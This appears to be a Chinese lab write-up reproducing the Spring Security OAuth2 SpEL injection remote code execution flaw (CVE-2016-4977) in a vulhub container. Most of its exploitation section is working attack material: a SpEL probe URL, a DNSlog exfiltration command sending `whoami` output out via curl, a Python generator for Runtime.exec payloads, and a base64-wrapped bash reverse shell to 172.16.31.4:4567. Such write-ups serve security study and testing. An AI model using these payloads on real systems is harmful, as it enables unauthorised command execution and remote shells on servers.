







# Spring Security OAuth2 远程命令执行漏洞（CVE-2016-4977）

### 1.1、漏洞描述

是该版本的Spring的一个错误页面，存在参数获取未进行过滤，导致可以直接对服务器执行系统权限

### 1.2、漏洞原理

[漏洞分析](https://www.cnblogs.com/litlife/p/10380701.html)

Spring Security OAuth2处理认证请求的时候如果使用了whitelabel视图，response_type参数值会被当做Spring SpEL来执行，恶意攻击者通过构造response_type值可以触发远程代码执行漏洞

### 1.3、漏洞等级

高

### 1.4、影响版本

Spring Security OAuth 1.0.0到1.0.5
Spring Security OAuth 2.0.0到2.0.9
Spring Security OAuth 2.0到2.0.14
Spring Security OAuth 2.1到2.1.1
Spring Security OAuth 2.2到2.2.1
Spring Security OAuth 2.3到2.3.2

### 1.5、漏洞复现

#### 1、基础环境

Path：vulhub/spring/CVE-2016-4977

---

启动测试环境：

```bash
sudo docker-compose up -d
```

访问`http://your-ip:8080/`即可看到



#### 2、漏洞扫描


#### 3、漏洞验证

##### 简单验证

SpEL表达式注入

`/oauth/authorize?response_type=${233*233}&client_id=acme&scope=openid&redirect_uri=http://test`

输入admin/admin



可以看到233*233被执行

触发点在：**${233\*233}**

[原理参考](https://www.cnblogs.com/litlife/p/10380701.html)



URL中的SpEL表达式${233*233}已执行成功并返回结果，证明漏洞存在

##### dnsLog验证



```bash
curl `whoami`.gls6xq.dnslog.cn
```

然后进行base64编码



```bash
bash -c {echo,Y3VybCBgd2hvYW1pYC5nbHM2eHEuZG5zbG9nLmNu} |{base64,-d}|{bash,-i}
```

然后使用如下poc

```python
#!/usr/bin/env python

message = input('Enter message to encode:')

poc = '${T(java.lang.Runtime).getRuntime().exec(T(java.lang.Character).toString(%s)' % ord(message[0])

for ch in message[1:]:
   poc += '.concat(T(java.lang.Character).toString(%s))' % ord(ch) 

poc += ')}'

print(poc)  
```



替换上面的 223*223

```

```



刷新dnslog解析


 

### 1.6、深度利用

#### 1、反弹Shell

```
bash -i >& /dev/tcp/172.16.31.4/4567 0>&1
```

进行编码

```bash
bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xNzIuMTYuMzEuNC80NTY3IDA+JjE=} |{base64,-d}|{bash,-i}
```


### 1.7、修复建议

版本升级

